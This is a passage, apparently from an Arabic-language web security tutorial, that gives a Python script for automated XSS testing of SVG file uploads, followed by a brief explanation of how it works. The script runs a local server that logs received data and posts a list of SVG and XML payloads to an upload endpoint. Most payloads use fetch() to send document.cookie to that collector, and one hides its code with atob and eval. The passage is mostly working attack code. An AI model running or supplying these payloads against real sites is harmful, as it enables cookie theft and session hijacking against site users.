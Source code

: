 #### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python مع تحميل ملفات SVG وإرسال XML):
  ```python
  from http.server import BaseHTTPRequestHandler, HTTPServer
  import urllib.parse
  import requests

  class LogServer(BaseHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.end_headers()
          query = urllib.parse.urlparse(self.path).query
          print(f"بيانات مستلمة: {urllib.parse.parse_qs(query)}")

      def do_POST(self):
          self.send_response(200)
          self.end_headers()
          content_length = int(self.headers['Content-Length'])
          post_data = self.rfile.read(content_length).decode()
          print(f"بيانات POST مستلمة: {post_data}")

  payloads = [
      "<svg><script>fetch('http://localhost:8000/log?c='+encodeURIComponent(document.cookie))</script></svg>",
      "<svg onload=\"fetch('http://localhost:8000/log?c='+document.cookie)\"></svg>",
      "<svg><a xlink:href=\"javascript:fetch('http://localhost:8000/log?c='+document.cookie)\"><text>Click</text></a></svg>",
      "<root><a xlink:href=\"javascript:alert('XSS')\">Click</a></root>",
      "<svg><script>eval(atob('YWxlcnQoJ1hTUycp'))</script></svg>"
  ]

  target_url = "https://example.com/upload-svg"
  for payload in payloads:
      try:
          # محاكاة تحميل ملف SVG
          files = {'file': ('test.svg', payload, 'image/svg+xml')}
          requests.post(target_url, files=files)
          print(f"تم إرسال: {payload}")
      except:
          print(f"فشل إرسال: {payload}")
  server = HTTPServer(('localhost', 8000), LogServer)
  print("تشغيل الخادم على http://localhost:8000")
  server.serve_forever()
  ```
- **كيف يعمل**:
  - يُشغل خادمًا محليًا لتسجيل البيانات.
  - يُرسل الحقن كملفات SVG أو بيانات XML إلى نقاط إدخال.
  - يسجل البيانات المستلمة في الخادم.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار آلي لتحميل ملفات أو نقاط إدخال.
